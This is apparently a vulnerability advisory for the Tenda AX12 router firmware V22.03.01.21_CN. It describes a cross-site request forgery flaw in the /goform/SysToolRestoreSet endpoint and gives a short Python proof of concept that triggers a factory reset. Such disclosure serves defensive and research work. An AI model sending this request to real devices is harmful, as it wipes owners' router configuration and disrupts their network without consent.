

## Vulnerability description

Affect device：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Device reset to factory settings

## Vulnerability cause

Provided /goform/SysToolRestoreSet interface function, under the premise of authentication, it allows remote attackers to restore the device to factory settings.


## POC

On the premise of authentication, just visit this interface.

```python
import requests

url = "http://ip/goform/SysToolRestoreSet"

r = requests.get(url)

print(r.content)
```


